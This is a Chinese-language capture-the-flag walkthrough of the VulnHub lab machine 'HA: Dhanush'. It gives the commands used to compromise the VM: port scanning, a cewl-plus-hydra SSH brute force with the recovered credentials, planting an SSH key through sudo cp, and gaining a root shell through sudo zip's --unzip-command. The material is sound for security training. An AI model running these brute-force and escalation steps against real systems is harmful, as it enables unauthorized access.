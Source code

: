 # HA: Dhanush

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：Dhanush（IP：192.168.253.141）

下载：https://www.vulnhub.com/entry/ha-dhanush,396/

## Let's go

```
nmap -A -p- 192.168.253.141
```

![](./img/HA：Dhanush-01.png)

> **对网页进行浏览,然而并没有发现任何信息,我们进行枚举**

```
dirb http://192.168.253.141/
```

![](./img/HA：Dhanush-02.png)

> **然而并没有发现什么有用的信息,因此怀疑是不是跟SSH有关**

```
cewl http://192.168.253.141/ -w 1.txt		#爬取网站生成字典
hydra -L 1.txt -P 1.txt  -vV -e nsr 192.168.253.141 ssh -s 65345 -f
```

![](./img/HA：Dhanush-03.png)

```
#username:pinak,password:Gandiv
ssh pinak@192.168.253.141 -p 65345
sudo -l
```

![](./img/HA：Dhanush-04.png)

> **我们需要想办法切换到sarang用户,因此可以使用cp命令将SSH密钥复制到他的.ssh目录中**

```
ssh-keygen
cd .ssh/
chmod 777 id_rsa.pub
```

![](./img/HA：Dhanush-05.png)

```
cp id_rsa.pub ../
cd ../
sudo -u sarang /bin/cp ./id_rsa.pub /home/sarang/.ssh/authorized_keys
ssh sarang@127.0.0.1 -p 65345
```

![](./img/HA：Dhanush-06.png)

>**切换到sarang用户,发现root权限的zip命令**

![](./img/HA：Dhanush-07.png)

```
touch get
sudo zip /tmp/get.zip /home/sarang/get -T --unzip-command="sh -c /bin/bash"
cd /root
cat flag.txt
```

![](./img/HA：Dhanush-08.png)